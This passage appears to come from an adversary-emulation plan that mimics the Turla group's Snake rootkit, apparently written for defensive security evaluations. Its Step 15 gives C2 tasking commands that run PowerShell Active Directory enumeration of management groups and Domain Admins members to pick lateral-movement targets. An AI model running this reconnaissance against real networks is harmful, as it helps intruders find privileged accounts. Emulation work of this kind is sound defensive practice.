 * <https://artemonsecurity.com/snake_whitepaper.pdf>

## Step 15 - Domain Discovery

:microphone: `Voice Track:`

Step 15 emulates Turla using Powershell to perform Active Directory user, group, and computer discovery. 

The Snake rootkit receives tasking from the C2 server to use Powershell's `ActiveDirectory` module to enumerate domain users, admin groups, and computers. Upon discovering `Zilvinas`'s regular and domain admin accounts, Snake will enumerate further details on the accounts. Snake then
discovers a workstation belonging to `Zilvinas` to use as a future lateral movement target.

---

### :biohazard: Procedures

* From your lower Kali C2 control server terminal window, task Snake to check if the `ActiveDirectory` PowerShell module is installed.
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Get-Module -ListAvailable -Name ActiveDirectory"}'
```
:heavy_exclamation_mark: Verify that you see output. If the implant returns empty output, please contact your lead.

* Wait 1 minute before tasking Snake to collect a list of Active Directory groups containing the word "management", 
as members of these groups will likely have elevated permissions on the network.
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADGroup -Filter * | Where-Object Name -Match \"management\" | Select Name"}'
```
:heavy_exclamation_mark: Verify that `Server Management` is included in the results.

* Wait 1 minute before tasking Snake to obtain the usernames of accounts within the `Server Management` domain group. This will instruct Turla on users to target next.

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADGroupMember -Identity \"Server Management\" | Select Name,SamAccountName"}'
```
:heavy_exclamation_mark: Verify that `ZilvinasAdmin`shows up in the list of accounts.

* Wait 1 minute before tasking Snake to obtain the usernames of accounts within the `Domain Admins` domain group.
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADGroupMember -Identity \"Domain Admins\" | Select Name,SamAccountName"}'
```
:heavy_exclamation_mark: Verify that `ZilvinasAdmin`shows up in the list of accounts.
